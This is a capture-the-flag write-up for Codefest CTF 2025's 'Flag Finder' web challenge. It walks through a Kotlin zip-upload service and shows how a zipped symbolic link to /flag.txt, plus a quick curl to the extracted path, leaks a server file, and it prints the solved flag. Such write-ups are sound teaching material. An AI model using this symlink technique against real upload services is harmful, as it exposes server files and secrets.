

# Codefest CTF 2025

## Flag Finder

> 
> Made a simple utility for uploading files in a zip and storing on my server :)
> 
> Hopefully this will save some space on my local system.
>
>  Author: n/a
>
> [`server.zip`](server.zip)

Tags: _web_

## Solution
This challenge comes with the backend source code of a small web-service that allows uploading zip files and searching the content of the archive for a given substring. 

The source code is fairly small. There are some routes in `Routing.kt` to look at and a singleton object that loads the flag from `/flag.txt`:

```js
object Singleton {
    val publicDir = File("/app/public")
    val cleanupFiles = CopyOnWriteArrayList<File>()
    val flag = File("/flag.txt").readLines().joinToString(separator = "\n")
    init {
        GlobalScope.launch(Dispatchers.IO) {
            while (true) {
                for (file in cleanupFiles) {
                    try {
                        if (file.deleteRecursively()) {
                            cleanupFiles.remove(file)
                        }
                    } catch (e: Exception) {
                        e.printStackTrace()
                    }
                }
                delay(TimeUnit.SECONDS.toMillis(2))
            }
        }
    }
}
```

This gives us an important information, that is, we know where the flag is to be found. Also we can see there is a thread running that deletes files every `2 seconds` that where queued into `cleanupFiles`.

The routes noted above are `/` that just redirects to `/public/index.html`. Static files are served with `/public`, which points to a path held within the singleton (`Singleton.publicDir`). Then there is `verifyFlag` that compares whatever we sent as `flag` parameter with `Singleton.flag` and lastely there is the interesting bit, that is the upload functionality, reachable via `/upload`.

Lets break down the upload functionality step by step.

```js
post("/upload") {
    var zipFolder: File? = null
    var zipFile: File? = null
    try {
        val bytes = readRequestBody(call) ?: throw FileTooLargeException()
        val filename = MessageDigest.getInstance("MD5").digest(bytes).joinToString("") { "%02x".format(it) }

        System.err.println(bytes.size)
        zipFolder = File(Singleton.publicDir, filename)
        zipFile = File(Singleton.publicDir, "$filename.zip")
        if(zipFile.exists()) {
            throw Exception()
        }
        zipFile.writeBytes(bytes)
        val process = ProcessBuilder()
            .command("unzip", zipFile.absolutePath, "-d", zipFolder.absolutePath)
            .redirectError(ProcessBuilder.Redirect.INHERIT)
            .start()
    // snip ...
```

First the request body is read, which contains the zip file, and a `md5` hashsum is created for the content. The hashsum is used as filename. This seems useful to reduce potential collisions based on file content. Then paths `zipFolder` and `zipFile` are created, both located in the public directory, so we can reach the extracted zip folder by accessing `host\public\{MD5}`. Since we know the file we upload, we can calculate the hash ourself and access the folder.

Next the file bytes are written to the path and a process is invoked that runs `unzip` so the file is extracted.

```js
    // snip ...
        val thread = Thread {
            try {
                process.waitFor()
            } catch (e: InterruptedException) {
                e.printStackTrace()
            }
        }
        thread.start()
        thread.join(100)
        if (thread.isAlive) {
            process.destroy()
            thread.interrupt()
            throw TimeoutException()
        }
    // snip ...
```

The next bit is some synchronization code that allows to return with a timeout exception after `100 millisecods`. This is to avoid that users upload archives there extract is blocking too much here.

```js
    // snip ...
        var fileCount = 0
        var foundFile: String? = null
        val toFind = call.request.queryParameters["toFind"]!!
        Files.walk(zipFolder.toPath()).use { stream ->
            stream.filter { Files.isRegularFile(it) }
                .forEach { filePath ->
                    try {
                        if (fileCount++ >= 2000) {
                            return@forEach
                        }
                        Files.lines(filePath, StandardCharsets.UTF_8).use { lines ->
                            lines.forEach { line ->
                                if (line.contains(toFind)) {
                                    foundFile = filePath.absolutePathString()
                                    foundFile =
                                        foundFile?.takeLast(foundFile!!.length - zipFolder.absolutePath.length)
                                }
                            }
                        }
                    } catch (_: Exception) {
                        System.err.println("Error parsing the input file: ${filePath.absolutePathString()}")
                    }
                }
        }
        if (foundFile != null) {
            call.respondText("FLAG FOUND IN $foundFile")
        } else {
            call.respondText("No flag found :(")
        }
    // snip ...
```

Next up, after the archive was extracted, the folder is traversed and, for each `regular file` the file is read line by line. If a line contains the seach-string passed by `toFind` the response is set to `FLAG FOUND IN $foundFile` while `foundFile` holds the filename that contained the matching substring.

```js
    /// snip
    } catch (e: FileTooLargeException) {
        call.respondText("ERROR: Zip file too large. Only upto 1KB supported.")
    } catch (e: Exception) {
        e.printStackTrace()
        call.respondText("ERROR: Internal Server Error")
    } finally {
        zipFile?.let { Singleton.cleanupFiles.add(it) }
        zipFolder?.let { Singleton.cleanupFiles.add(it) }
    }

}
```

After this there is some exception handling and in the `finally` section the zip folder content and the archive itself are scheduled for cleanup (remember, every two seconds a cleanup runs).

Well... What can we do here? One thing that stands out is, we know where the flag is located, but we don't have the possibility to do path traversal or anything else. But we can reach the file still, because zip archives allow it to pack `symbolic links`. We can verify if this works by preparing a setup.

```bash
$ touch /flag.txt
$ ln -s /flag.txt flag.txt
$ zip -y -r archive.zip .
  adding: flag.txt (stored 0%)
```

This should do the trick. Lets upload to server and searches for a known part of the flag `Codefest`:



That worked, the service does access the flag file. The problem is, how can we get the `content` of the file? There is no possibility to expoit string interpolation here, by setting the filename of the zipped symbolic link to something interesting like `$Singleton.flag`. 

But we still can `access` the extracted content (at least within a 2 second timeframe). So lets build the path real quick.

```bash
$ md5sum archive.zip
ba2f4ffabfbd5ed38583866c9b0cc551  archive.zip
```

The path is therefore `http://codefest-ctf.iitbhu.tech:24858/public/ba2f4ffabfbd5ed38583866c9b0cc551` and we know there is a symbolic link pointing to `/flag.txt` in there, so, why not just read this? So, we upload the archive and very quickly run our request for the flag file. And yes, this gives us the flag.

```bash
$ curl http://codefest-ctf.iitbhu.tech:24858/public/ba2f4ffabfbd5ed38583866c9b0cc551/flag.txt
CodefestCTF{symlinks_ftw_IlDObuPc}
```

Flag `CodefestCTF{symlinks_ftw_IlDObuPc}`